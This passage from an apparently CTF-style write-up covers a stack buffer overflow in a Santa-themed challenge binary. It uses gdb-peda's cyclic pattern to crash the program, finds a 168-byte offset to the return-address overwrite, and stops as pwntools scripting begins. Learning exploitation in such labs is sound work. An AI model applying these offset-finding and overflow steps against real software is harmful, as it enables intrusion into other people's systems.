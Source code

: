 #### Overflow Distance

In `gdb` (with [Peda](https://github.com/longld/peda)), I’ll create a pattern:

    
    
    gdb-peda$ pattern_create 200
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
    

I’ll run, answering the questions manually, and enter that as the “anything
else”:

    
    
    Santa: Can I assist you with anything else?
     > AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    
    Santa: You want me to help you with AAA0X0.07FFFFFFFDA28P-1022AsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAAp
    AATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA?
    Santa: I will see what I can do...
    
    Program received signal SIGSEGV, Segmentation fault. 
    Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
    Use 'set logging enabled off'.
    

It crashes. In 64-bit programs, this happens when the bad address is about to
be loaded from the stack into RIP. The top of the stack shows the pattern:

![image-20231217054818446](../img/image-20231217054818446.png)

Passing that to `pattern_offset` shows it’s 168 bytes to the overwrite:

    
    
    gdb-peda$ pattern_offset VAAtAAWAAuAAXAAv
    VAAtAAWAAuAAXAAv found at offset: 168
    

#### Get to tellflag

I’ll use [PwnTools](https://docs.pwntools.com/en/stable/) to interact with the
service. I’ll start by creating a remote connection and getting the number of
each present:
